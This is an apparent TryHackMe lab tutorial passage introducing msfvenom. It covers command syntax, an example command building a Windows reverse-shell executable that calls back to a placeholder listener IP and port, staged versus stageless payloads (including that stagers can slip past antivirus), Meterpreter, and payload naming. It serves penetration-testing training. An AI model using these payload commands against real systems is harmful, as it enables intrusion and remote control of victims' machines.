 <p></p><p></p><p><span style="background-color:inherit">Msfvenom: the one-stop-shop for all things payload related.</span></p><p><span style="background-color:inherit">Part of the Metasploit framework, msfvenom is used to generate code for, primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. </span><code>.exe</code><span style="background-color:inherit">, </span><code>.aspx</code><span style="background-color:inherit">, </span><code>.war</code><span style="background-color:inherit">, </span><code>.py</code><span style="background-color:inherit">). It's this latter function that we will be making use of in this room. There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.<br /></span></p><p><span style="background-color:inherit">The standard syntax for msfvenom is as follows:</span></p><p><code>msfvenom -p &lt;PAYLOAD&gt; &lt;OPTIONS&gt;</code><span style="background-color:inherit"><br /></span></p><p><span style="background-color:inherit">For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:</span></p><p><code>msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=&lt;listen-IP&gt; LPORT=&lt;listen-port&gt;</code><span style="background-color:inherit"><br /></span></p><p><img style="width:852px" src="https://i.imgur.com/JkWeFLq.png" /><span style="background-color:inherit"><br /></span></p>Here we are using a payload and four options:<p></p><ul><li><b>-f</b> &lt;format&gt;</li><ul><li>Specifies the output format. In this case that is an executable (exe)</li></ul><li><b>-o </b>&lt;file&gt;</li><ul><li>The output location and filename for the generated payload.</li></ul><li><b>LHOST=</b>&lt;IP&gt;</li><ul><li>Specifies the IP to connect back to. When using TryHackMe, this will be your <a href="http://10.10.10.10" target="_blank">tun0 IP address</a>. If you cannot load the link then you are not <a href="https://tryhackme.com/room/welcome" target="_blank">connected to the VPN</a>.</li></ul><li><b>LPORT=</b>&lt;port&gt;</li><ul><li>The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.<br /></li></ul></ul><hr /><p><span style="background-color:inherit"><i><u>Staged vs Stageless</u></i><br /></span></p><p><span style="background-color:inherit">Before we go any further, there are another two concepts which must be introduced: <i><b>staged</b></i> reverse shell payloads and <i><b>stageless</b></i> reverse shell payloads. </span></p><ul><li><span style="background-color:inherit"><i><b>Staged</b></i> payloads are sent in two parts. The first part is called the <i>stager</i>. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and downloads the actual payload. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.  <br /></span></li><li><span style="background-color:inherit"><i><b>Stageless</b></i> payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.</span></li></ul><p><span style="background-color:inherit">Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discovery and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by antivirus software.</span></p><hr /><p><span style="background-color:inherit"><i><u>Meterpreter</u></i><br /></span></p><p><span style="background-color:inherit">On the subject of Metasploit, another important thing to discuss is a <i>Meterpreter</i> shell. Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with Windows targets. They also have a lot of inbuilt functionality of their own, such as file uploads and downloads. If we want to use any of Metasploit's post-exploitation tools then we <i>need</i> to use a meterpreter shell, however, that is a topic for <a href="https://tryhackme.com/room/rpmetasploit" target="_blank">another time</a>. The downside to meterpreter shells is that they <i>must</i> be caught in Metasploit. They are also banned from certain certification examinations, so it's a good idea to learn alternative methodologies.<br /></span></p><hr /><p><span style="background-color:inherit"><i><u>Payload Naming Conventions</u></i></span></p><p><span style="background-color:inherit">When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows:</span></p><p><code>&lt;OS&gt;/&lt;arch&gt;/&lt;payload&gt;</code><span style="background-color:inherit"><br /><u></u><i><u></u></i><br /></span>For example:</p><p><code>linux/x86/shell_reverse_tcp</code><br /></p><p>This would generate a stageless reverse shell for an x86 Linux target. </p><p>The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.:</p><p><code>windows/shell_reverse_tcp<br /></code><br /></p><p>For a
